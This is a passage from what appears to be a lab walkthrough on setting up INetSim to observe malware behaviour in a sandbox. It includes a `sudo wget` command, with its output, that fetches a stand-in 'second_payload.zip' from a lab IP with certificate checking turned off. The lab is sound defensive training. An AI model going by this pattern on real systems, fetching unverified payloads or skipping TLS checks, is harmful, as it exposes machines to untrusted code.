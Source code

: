 <img src="../../_resources/fbb435c238a186a5b9d5e915b6ab90cb.png" alt=" This image demonstrate the instructions mentioned where in you should click on Advance, then proceed to Accept the Risk and Continue." width="672" height="451" class="jop-noMdConv" style="display:block; margin: 0 auto;">

Once done, you should be redirected to the INetSim's homepage!

<img src="../../_resources/5e6bbe59a46ee9407fd65bbe-1727039.png" alt="This image shows the output or the desired result when the tool INetSim is started without any issues" width="1192" height="233" style="display:block; margin: 0 auto;">

One usual malware behaviour is downloading another binary or script. We will try to mimic this behaviour by getting another file from INetsim. We can do this via the <span style="color: inherit;">CLI</span> or browser, but let's use the <span style="color: inherit;">CLI</span> to make it more realistic. Use this command: `sudo wget https://10.10.28.63/second_payload.zip --no-check-certificate`.

```shell
bob@BoB~# sudo wget https://10.10.28.63/second_payload.zip --no-check-certificate
--2024-09-22 22:18:49--  https://10.10.28.63/second_payload.zip
Connecting to 10.10.28.63:443... connected.
WARNING: cannot verify 10.10.28.63's certificate, issued by \u2018CN=inetsim.org,OU=Internet Simulation services,O=INetSim\u2019:
  Self-signed certificate encountered.
    WARNING: certificate common name \u2018inetsim.org\u2019 doesn't match requested host name \u2018MACHINE_IP\u2019.
HTTP request sent, awaiting response... 200 OK
Length: 258 [text/html]
Saving to: \u2018second_payload.zip\u2019

second_payload.zip  100%[===================>]     258  --.-KB/s    in 0s      

2024-09-22 22:18:49 (14.5 MB/s) - \u2018second_payload.zip\u2019 saved [258/258]
```